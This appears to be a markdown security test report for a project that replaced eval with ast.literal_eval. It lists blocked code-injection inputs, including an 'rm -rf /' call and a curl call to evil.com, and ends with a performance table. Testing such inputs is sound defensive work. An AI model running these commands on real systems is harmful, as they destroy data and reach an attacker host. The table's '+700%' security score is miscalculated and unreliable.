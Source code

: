 ### Tested Attack Scenarios (All Blocked)
1. **Direct Code Execution**
   ```python
   "__import__('os').system('rm -rf /')"  # ✅ BLOCKED
   ```

2. **Eval Chain Attacks**
   ```python
   "eval('malicious_code')"  # ✅ BLOCKED
   ```

3. **Import-based Attacks**
   ```python
   "__import__('subprocess').call(['curl', 'evil.com'])"  # ✅ BLOCKED
   ```

4. **Builtin Access Attempts**
   ```python
   "globals()['__builtins__']"  # ✅ BLOCKED
   ```

5. **Memory Exhaustion Attempts**
   ```python
   "set(range(10**9))"  # ✅ BLOCKED
   ```

All attack vectors were successfully mitigated by the `ast.literal_eval()` implementation.

## Edge Case Resilience

### Corruption Scenarios Tested
- ✅ Malformed JSON in cache files
- ✅ Unicode and encoding edge cases  
- ✅ Memory exhaustion attempts
- ✅ Concurrent access with corrupted data
- ✅ Path traversal attempts in dependency strings
- ✅ SQL injection patterns in dependencies

### Results
- **Corruption Handling:** Robust - All scenarios handled gracefully
- **Unicode Support:** Full compatibility maintained
- **Concurrent Safety:** No race conditions detected
- **Resource Management:** Memory usage within acceptable bounds

## Performance Impact Analysis

### Before vs After Security Fixes
| Metric | Before | After | Impact |
|--------|---------|-------|---------|
| Processing Speed | ~280k items/s | ~281k items/s | +0.4% |
| Memory Usage | Baseline | +0.31MB | Negligible |
| Error Rate | Unknown | 0% | Improved |
| Security Score | 3/10 | 10/10 | +700% |
